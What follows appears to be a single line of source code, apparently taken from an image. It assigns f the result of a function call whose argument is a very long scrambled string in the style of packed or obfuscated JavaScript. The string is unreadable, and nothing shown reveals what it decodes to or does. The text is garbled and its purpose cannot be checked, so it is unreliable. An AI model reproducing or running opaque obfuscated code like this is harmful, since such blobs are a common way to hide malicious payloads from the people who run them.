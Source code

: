 f=_(s,"#V%X+sbRQ_mcjYUA%m+%UXQ+%QjAbReQm__Y+UAU_%XXYYsR%bccAX_+YUb4RbCj+sVUXm_A+cYURA%ZVcmcRVPQmmsUj_QYXVjcQVVscjbk_%XUYVR%VX%ZcUsYAAmj+UA%Qb%VYb%jVXcQssQ%%Xj+bslbmRjQXmjm%UYcbY{UmAm>sYAX_bX_YYQs%XcjsUTjQA+VAs_%cAb{5Vm%+XU+QssRkRbcVXmm+cUjYVmPXUUvb+Vmc+sQd+mYYmRjV_cmsc+U;%mVsXQK%Vj%bXp+ms+bVVjQ%jYVbc}jmYc+bVAA_U%+cmsbcQb8AR_QX_%UU)_+XVmVbU!jchs+cb%+jsbbLRmQ+_UmjVbjYf_sHAc}sV+bAc_Y+Q_bRY%VjssAcccXXUAVXAXBYXRVVRm_+QAmQj%jQ_QVV+j=ssmURjXAU<Q(3bc_sQcbQY{cRmVmcUbVAY_UXAXsjsQcXJ_b2Qmc+RUQQ_RYXRYsR(VXs%>V_VX%YXcYQ%VRcUsYUYmjXjUm_T%UjCR%2bc(+bAY%sjbbR(Qm_+mUcRjbjYVRQV7cVs%+XAsmQ+mYjXQd+cAR+_A+QYURA%i,%Y^bbMjc+sQYR_RX%YQRAmj+YUUQAX0YVR%bVA+sQAm_RXQY_jbQ>%%YVAU_A+<UVQ%%Xj+_j+bmm+jU_Qm%cVmjURcV+spXbUAAjX+jmbcRj_RAjmQXcYjRYRV%UYsRXTsmQXRUb_+XmmmRQVbmAUjQY%UjAR4VVY%jAX+_Q+iYRRQV_%bjmsY.VcVsXA%QmXgjm;RcV+bURQQbcX_YYR:V%j5X%AA_Y+VUs+RcbsRAmmVX_YmRcRx%%YbRXUjm%++UQ_rjsbb5RmQ+_UmYc_jJYRV%sc5sVA%Ys_sXQUVRU%mjQbA1_mvXVA,Qa%UY+R%J+cb+mA+Qm+VbjVmmc+jUYA4RR%Xc_Qs%5cQ%sjRRF+cU+QYVjjAbV_UXAU-QV%%jXb+VsUb+mAhQ_%mjccjRj%VcQb+AmmV+VRRVQcbsRAQ0R_As%RjVYcUsAD,mVQ%+Qj+%sjbbRlQm_+m%cUVbYYVQxV)cVs%ssw%bU+VUmQs%jjQ+QUAQ_%YY%sBA%_+sbmRssUbQR%Q.YYjRmVjm sbAP_++KU_sc%XjVsmAjmmY_)XUsRmXjAVbQ%%%hQs%mj+bs7bUccVsjUY_mXUYVVVAXsWAV_%_c+QU_Qb%m_%%Qj_mYXYA++j%bj_Rs<mcQ+bAm__%jYmbjV_c_bOA%_j+X_UR+%VjG%XF_mQXjYYQQ%GjcbQAUmjsXmAbAXVYRbYMcRss+U__%XQ_mRQVbcLbVAVmX+cmVQp%mcRARjjQcURRcVXUR%bXUmy+VU%QX%+js+bRbUQ+jA+Qc%jjYjVR+VjcbssPR_sXRU%RjcQssRVj_Yjcs(RgjAAb+vRmX++Usjj__%_YbbAmUsRUYQU%AVXU=Q%%jmcsmAQmm+VUYRAccsjAY_UXAU-QVsmZXbRScmb+RUQUXRXX_Y!R%%bs%As_VX%YXURQ_VRj_bj__ukUUAmVjsYaAj+UB+%UXQ+%sjbbRKQU+QmUU_X%YjUbAsQ%sjbbXYc_m+mRmXcc_smAcUVmcs%U+_%UVYcR%V_cRibA%QY+%QmR+VmbYs+AUm%AVUbRcV_Rsb_Ammm+%UmQA%+Y%bum%+jUVQ%%XIRY+RQVsmYscYjQjXqYbQX%%sJAV_%XXY+RsVbjc_QA__mXcYjRYVUAAcQ+VmssmU+Qs%bX_jmQVLccUsAA%m%XQY++cUVQ%%mjsbRWcmm+AUc_+XsYG+VUbQF%Vj%mbRXVRmc%UAY_%jmbcojmY+UUA_7bcV%RbVmcssbARYcmQ+bUmQUA9bVKsm1+VU%j+QRX_jARYyY+jAXQc%jjYc_s+M_m++cUbQQVmjXVmjls_Am_cQs+cAV_X%VjAbs6Q++UsQb%RjQb_UmCjQjA4m}%AY0RVbs%%j_bRA__j%cYmQQ%UmAb%=cmQ+%AiQU%RbRVUmb+RUQYb__XmYmb6VXc%+AU+mb+sYYQXVYjm+q}%_UXAUVQcAAYXR+VX+s<sQ+%sjbcRb_VjcUs5mj_QXXUQX6VYccbVAAssXAUsXQX%j_R(5UsY+uAVQAXQYsbQVbbsVXc+bbjjbU:cmj+YX+AU_U+sR%VXc+ssAb_RXQgVcmVccjsYAU_A+a6VUbbXjR_J:bmR+QsVAU_AXjmRXYYUjRbQ?_bV+bU+RQ%XjRRVjQ_U+cUm+Y%^YXR+<RcRVXj+QA%cmsXmYARYVUjbbXeRmX+bU%QbAR_YXbYRRQQcVAcjb4hXmR+cUs%Vj%bXB+ms+bURbQbQjYbApjmY+U+XAsm_+bRbVjcssbARUj_Us%UAbA%bYQb+mX+mU%QX%+SQjUbjxcc+1mYb_V+bbU.ActsVA%_XX+XQcbVRcQs_Am_cXjYYRUsAjMbVD%mX++UsUb_RCQbjVumc+jUYYU_x+%YbQi%RsRA__bXRYQcUQQX3j_xCmQXAULQVbY%QYY%sA_jOscAYQAXQbAVmmU+AAPY+mV+XUYXsEVcjRVc_Qb++UmQQjVb_2>mV+%XRU__YXmm_RYVYcUsmAmXHYbbAVBcVmRXjYRm++QUsRY%csY-%_jXYYUY%Q_%XjUbjV%mjUb%cbUc+Q_Q+YDX_%Y_%X+YVR%VXVccbbXAjXcYYRmVccjc%+%MQmYU+Qm%Xj+bssV9jjVX%AQ_c+VUV.UAc_VAcR%_V%+sUsscRsQA__mXcYj%YQUAAbXkQm%+XU+YcQc%mYjRQVjRYUA_V%UjAR:QQ%+c+b+_Q++YRRQV_)Uj&R+VV_b%.UjQm%_YVRVzmc+scQQ}jcRbXmcRAYumXjAX+UVRXV+cs_QbbIm_YXAUYbA%bYQb+A4mmsmUQ_qjs%HQVfjmQYcmFAcljbUj_AV_VA%X+6:cQcsVmcQs_Am_cXj+mb_VjcAjbU+RmQXUQ_V%RjQb_sYVRcss-AXR%XsYAQbVQjbAs_bXRYQR_VmXcm+XYmV+AUOQV%%LsjsbQVVmUsmAQ_AX_Y3syVYccsAxXbsYbQVVscbsRsRU%QVXUU%_sZbjbsHA_m_+RUY%sjcQ%Xsb_UUlR+jbjYVR+V/cVs%XjBV_bXYYjVcj%smAc_jm,+YAVQAXbYbbjV%mmUbQR%Qj_bmJcmjQb%UQAbbsQUmA%XYA%jUYbXcU_RmVccjmzbmyQc5s+jbQQXRjQbcVsmj+mAQ_AXAR&VsmAshAVUb_Q+jU_sQ%bYMA__mXcYjRYVUcAbvDVms+UU+Qs%bVkYsbmVVcS%AAj_mXUU%++c%sXA+_sXbYR%QQcAmsULV_YXUYAAnQ+%XjAR3mQ+AURQQ%_+VYYRs%VcXssA__YXRRXRQAs+Y_bc++_QXcmVAj_sUAAmW_X+RAbQ_X_csRsAcc_+cd%_mjYbU}AcCsVA%_XbQVsRbRAQAslcmmYY+YlcYVAXs%cbXm%Y%RH+YbbjcbY}mmc+j+/ARm_XsRVV%cXs+As_bcRVAc_VmccsjAY_UXAUrmYb%jXjXXbRjHb_cYcYs{mbj5YmU+AAK_VX%%Ac+VQjQsRAQ__QY%mjQsUVwme%SARQRXsYRbUVscs%QA+QA++QAXbjUbAVFe+css+p._m%mACQQVUsmUVRVs%VUbcVYm_mV.bmU+sUbQRRVXbjcR%VV__+AAV_sXYR%XRsURYRb%AcXbUc_%VcjsYAUms+OUVQ%%bjmbsHbmR_Q+mAj_lXmUVVVcmsHAV_%RA+XYQRR%XmcsjCjm++jAV%Vj%bgPVm%cV+_Aj%_YQbQ*_mm_Qsc0%mVX+c%Qb%bjRbXGXbRVmU+Q%VYjbAAmsXUYAQebmX,YbRQpbc++mUY%jYVbcNjmYcVsUAU_AXRYbQQcbsbAR_QXcYmRcVjjFbmAAmT+VssUQ_Q%QY%RzVQmcs_Uj_UXVRV%jcdsVA%AcmQ+_UbQmA%QQ%_AAmssBUVQUX%jsXG1mmcV+A_QcTccjRR{X_UsRuXQRYwRVV%cXs+A__bXRYQQcinccsjAY_AXAUCQVX+%Ab+2bmb+_UQQ_%mjcXcdYmU+AA%_VXXYXR+RXcbsRAQ_mXmYcRjVYj_sAw7mVs+YRQ+%sjbbj/Qm_+mncmb%YjUbAVdcVssAXmbXAYbRQVQccsmAc_jXYA+RA%%jVb%6Xm++sUb_Q%Qj_bm0Ymj+AUUmAXAYVRXVXc+ssAR_RsQAsRmVjcjsUAUmX+M